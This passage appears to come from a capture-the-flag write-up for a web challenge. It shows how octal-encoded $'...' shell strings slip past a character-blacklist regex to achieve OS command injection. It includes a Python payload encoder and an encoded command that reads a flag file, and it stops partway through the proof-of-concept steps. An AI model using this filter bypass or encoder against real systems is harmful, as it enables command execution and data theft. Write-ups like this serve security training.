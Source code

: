 ![](dojo36/img/ywh-3.png)

We can automate the process of payload creation using a simple python script :
```python
payload = input("> ")
encoded = [oct(ord(c)) for c in payload]
epayload = "".join(encoded).replace('0o','\\').replace('\\40','\' $\'')
print(f"$'{epayload}'")
```
![](dojo36/img/ywh-4.png)

*Spaces must be replaced by real spaces and not the octal representation of space*

And this payload only use numbers, `$`,`'` and `\`, it doesn't match any of the characters of the regex function (`a-zA-Z_*^@%+=:,./-`).

So let's try to get the result of the `id` command :
![](dojo36/img/ywh-5.png)

And it worked ! We successfully bypassed the filters and gained OS command injection on the server.
## POC

By linking the SQL filters injection and the octal encoding to bypass the sanitization function, we are able to execute commands on the server and read the flag :

**1. First, encode the command :**

![](dojo36/img/ywh-6.png)
```sh
$'\143\141\164' $'\57\164\155\160\57\146\154\141\147\56\164\170\164'
```
**2. Then, using the right token filters (`_%`) and the payload, read the content of the flag :**